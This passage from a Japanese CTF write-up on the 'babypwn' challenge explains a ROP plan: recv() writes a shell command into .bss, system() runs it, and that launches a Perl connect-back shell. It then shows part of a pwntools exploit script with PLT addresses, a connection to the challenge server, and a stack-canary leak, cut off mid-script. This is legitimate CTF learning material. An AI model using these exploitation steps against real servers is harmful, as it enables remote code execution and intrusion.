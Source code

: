 しかし, これは fork-server 型なので `system("/bin/sh")` を呼んでも意味がない[^1]. そこで, Linux 環境ならほぼ確実に入っているだろう Perl の connect-back shell を起動するワンライナーを使うことにした.

また, `system()` の引数に渡す文字列は, 木曜に解いた [CSAW CTF Qualification Round 2013: Exploitation3](http://shell-storm.org/repo/CTF/CSAW-2013/Exploitation/CSAW-Diary-300/) ([書いたスクリプト](https://gist.github.com/Tosainu/5e0a1764c020a7e5b251b64b48b1468c))と同じような手法を使って送り込んだ.  
ROP が発動する段階ではまだ通信が close されていないことを利用し, まず `recv(fd, addr_bss, 0x100, 0)` を呼んで `.bss` セクションに実行したいシェルコマンドを書き込み, その後 `system(addr_bss)` につなげて送ったコマンドを実行させる.

[^1]: `stdin`, `stdout` などがプログラムが動いているサーバ側を向いているため.

実際に作成したスクリプトと実行結果は次の通り. 作業している環境が 無線 LAN ルータ等の NAT の下にある場合は port forwarding の設定をしておくのも忘れずに.

```python
#!/usr/bin/env python2

from pwn import *

# $ objdump -M intel -j .plt -d babypwn
# (...)
# 08048620 <system@plt>:
#  8048620:	ff 25 2c b0 04 08    	jmp    DWORD PTR ds:0x804b02c
#  8048626:	68 40 00 00 00       	push   0x40
#  804862b:	e9 60 ff ff ff       	jmp    8048590 <setsockopt@plt-0x10>
# (...)
# 080486e0 <recv@plt>:
#  80486e0:	ff 25 5c b0 04 08    	jmp    DWORD PTR ds:0x804b05c
#  80486e6:	68 a0 00 00 00       	push   0xa0
#  80486eb:	e9 a0 fe ff ff       	jmp    8048590 <setsockopt@plt-0x10>
addr_system_plt = 0x8048620
addr_recv_plt   = 0x80486e0

# $ readelf -S babypwn | grep .bss
#   [25] .bss              NOBITS          0804b1b4 0021b4 00000c 00  WA  0   0  4
addr_bss = 0x804b1b4

buffer_size = 0x28

socket_fd = 4

# r = remote('localhost', 8181)
r = remote('110.10.212.130', 8888)
# r = remote('110.10.212.130', 8889)

def echo(s):
    r.recvuntil('Select menu > ')
    r.sendline('1')
    r.recvuntil('Input Your Message : ')
    r.send(s)
    ret = r.recvuntil('\12=')
    return ret[:-2]

def reverse_echo(s):
    r.recvuntil('Select menu > ')
    r.sendline('2')
    r.recvuntil('Input Your Message : ')
    r.send(s)
    ret = r.recvuntil('\12=')
    return ret[:-2]

def exit_app():
    r.recvuntil('Select menu > ')
    r.sendline('3')

# leak canary
ret = echo('A' * (buffer_size + 1))
canary = u32(ret[buffer_size:buffer_size + 5]) & 0xffffff00
```
